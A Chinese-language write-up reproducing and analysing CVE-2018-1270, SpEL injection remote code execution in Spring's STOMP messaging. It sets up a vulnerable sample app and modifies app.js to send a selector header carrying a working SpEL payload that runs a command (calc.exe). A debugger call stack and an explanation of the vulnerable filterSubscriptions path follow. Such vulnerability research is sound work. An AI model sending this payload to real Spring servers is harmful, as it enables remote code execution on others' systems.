

前置基础
---


相关漏洞
---

### CVE-2018-1270 SpEL Injection RCE

#### 环境搭建

```
git clone git@github.com:spring-guides/gs-messaging-stomp-websocket.git
cd gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
cd complete
mvn spring-boot:run
```


#### 漏洞复现

篡改app.js的内容，插入恶意selector代码：

```js
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```


然后保存 Ctrl + S，然后点击Connect再随便Send一些字符，成功触发漏洞



#### 漏洞分析

sink处下断点


获取调用栈
```java
getRuntime:58, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
execute:120, ReflectiveMethodExecutor (org.springframework.expression.spel.support)
getValueInternal:107, MethodReference (org.springframework.expression.spel.ast)
getValueInternal:90, MethodReference (org.springframework.expression.spel.ast)
getValueRef:58, CompoundExpression (org.springframework.expression.spel.ast)
getValueInternal:88, CompoundExpression (org.springframework.expression.spel.ast)
getTypedValue:116, SpelNodeImpl (org.springframework.expression.spel.ast)
getValue:306, SpelExpression (org.springframework.expression.spel.standard)
filterSubscriptions:217, DefaultSubscriptionRegistry (org.springframework.messaging.simp.broker)
findSubscriptionsInternal:186, DefaultSubscriptionRegistry (org.springframework.messaging.simp.broker)
findSubscriptions:127, AbstractSubscriptionRegistry (org.springframework.messaging.simp.broker)
sendMessageToSubscribers:350, SimpleBrokerMessageHandler (org.springframework.messaging.simp.broker)
handleMessageInternal:272, SimpleBrokerMessageHandler (org.springframework.messaging.simp.broker)
handleMessage:241, AbstractBrokerMessageHandler (org.springframework.messaging.simp.broker)
run:138, ExecutorSubscribableChannel$SendTask (org.springframework.messaging.support)
sendInternal:94, ExecutorSubscribableChannel (org.springframework.messaging.support)
send:119, AbstractMessageChannel (org.springframework.messaging.support)
send:105, AbstractMessageChannel (org.springframework.messaging.support)
sendInternal:187, SimpMessagingTemplate (org.springframework.messaging.simp)
doSend:162, SimpMessagingTemplate (org.springframework.messaging.simp)
doSend:48, SimpMessagingTemplate (org.springframework.messaging.simp)
send:108, AbstractMessageSendingTemplate (org.springframework.messaging.core)
convertAndSend:150, AbstractMessageSendingTemplate (org.springframework.messaging.core)
convertAndSend:128, AbstractMessageSendingTemplate (org.springframework.messaging.core)
handleReturnValue:188, SendToMethodReturnValueHandler (org.springframework.messaging.simp.annotation.support)
handleReturnValue:107, HandlerMethodReturnValueHandlerComposite (org.springframework.messaging.handler.invocation)
handleMatch:527, AbstractMethodMessageHandler (org.springframework.messaging.handler.invocation)
handleMatch:497, SimpAnnotationMethodMessageHandler (org.springframework.messaging.simp.annotation.support)
handleMatch:88, SimpAnnotationMethodMessageHandler (org.springframework.messaging.simp.annotation.support)
handleMessageInternal:473, AbstractMethodMessageHandler (org.springframework.messaging.handler.invocation)
handleMessage:409, AbstractMethodMessageHandler (org.springframework.messaging.handler.invocation)
run:138, ExecutorSubscribableChannel$SendTask (org.springframework.messaging.support)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```
回溯找到漏洞代码所在位置


建立连接时会将payload通过add方法添加到subs中，此时并没有触发。


然后在建立连接后，发送任意内容的消息，在filterSubscriptions方法中获取连接配置(spel injection payload)，然后调用expression.getValue()，触发rce。


